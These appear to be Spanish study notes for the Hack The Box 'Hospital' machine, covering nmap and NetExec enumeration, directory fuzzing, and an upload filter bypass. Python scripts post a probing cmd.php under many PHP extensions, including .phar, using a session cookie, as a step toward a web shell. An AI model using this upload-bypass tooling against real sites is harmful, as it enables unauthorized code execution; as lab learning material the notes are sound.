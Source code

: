
-----
- TAG: #DOMINIOS #NETEXEC
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- Creamos nuestro escript para detectar rutas validas.
```
<?php
  echo "Hola probando";
?>
```

 - Creamos un archi **.py** para enlistar los **.php** con el codigo de estado
```
#!/usr/bin/env python3

import requests
import signal
import sys
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8081'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()

    for extension in extensions:
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
	r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        print(r.status_code)

if __name__ == '__main__':
    fileUpload()
 
```
>Si cambiamos `print(r.estatus_code)` por:
>`if "failed" not in r.headers["Location"]:`
>	    `print(colored(f"\n[+] Extensión {extension}: {r.headers['Location']}", 'green'))`
- Podemos realizar la misma función que realizamos con **burpsuite** utilizando **python**, con esta ultima función nos enlista todas las rutas **succes.php**.

- En la parte de scripts nos creamos el siguiente archivo **.py**
```
nvim fileUpload.py
```
```
#!/usr/bin/env python3

import requests
import pdb
import signal
import sys 
import time

from termcolor import colored 
from pwn import *

def def_handler(sig, frame):
 print(colored(f"\n\n[!] Saliendo..\n", 'red'))
 sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:upload.php"
cookies = {'PHPSESSID' : '=gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}

def fileUpload():

    f = open("cmd.php", "r")
    fileContent = f.read()

    fileToUpload = {'image': (f"cmd.phar", fileContent.strip())}

    r = requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)


	log.info("Archivo subido exitosamente")

if __name__ == '__main__':

	fileUpload()
```


- Luego un archivo .php llamado **cmd.php**
```
<?php 
  $dangerous_functions = array("exec", "passthru", "system", "shell_exec", "popen", "proc_open", "pcntl_exec");

  foreach ("$dangerous_functions as $f){
    if (function_exists($f)){
	  echo "\n^[+]" . $f . " - EXISTE";
    }
  }
?>
```
